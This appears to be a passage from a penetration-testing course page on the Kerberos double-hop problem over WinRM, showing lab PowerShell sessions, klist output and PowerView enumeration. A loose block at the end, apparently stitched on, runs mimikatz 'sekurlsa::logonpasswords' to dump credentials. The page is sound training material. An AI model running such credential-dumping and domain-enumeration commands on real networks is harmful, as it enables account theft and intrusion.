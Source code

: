 ***

### <mark style="color:red;">Workaround #2: Register PSSession Configuration</mark>

We've seen what we can do to overcome this problem when using a tool such as `evil-winrm` to connect to a host via WinRM. What if we're on a domain-joined host and can connect remotely to another using WinRM? Or we are working from a Windows attack host and connect to our target via WinRM using the [Enter-PSSession cmdlet](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2)? Here we have another option to change our setup to be able to interact directly with the DC or other hosts/resources without having to set up a PSCredential object and include credentials along with every command (which may not be an option with some tools).

Let's start by first establishing a WinRM session on the remote host.

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL -Credential inlanefreight\backupadm
```
{% endcode %}

If we check for cached tickets using `klist`, we'll see that the same problem exists. Due to the double hop problem, we can only interact with resources in our current session but cannot access the DC directly using PowerView. We can see that our current TGS is good for accessing the HTTP service on the target since we connected over WinRM, which uses SOAP (Simple Object Access Protocol) requests in XML format to communicate over HTTP, so it makes sense.

{% code fullWidth="true" %}
```powershell-session
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x11e387

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: HTTP/ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
       KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
       Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
       Start Time: 6/28/2022 9:09:19 (local)
       End Time:   6/28/2022 19:09:19 (local)
       Renew Time: 0
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x8 -> ASC
       Kdc Called:
```
{% endcode %}

We also cannot interact directly with the DC using PowerView

{% code fullWidth="true" %}
```powershell-session
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname

```
{% endcode %}


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname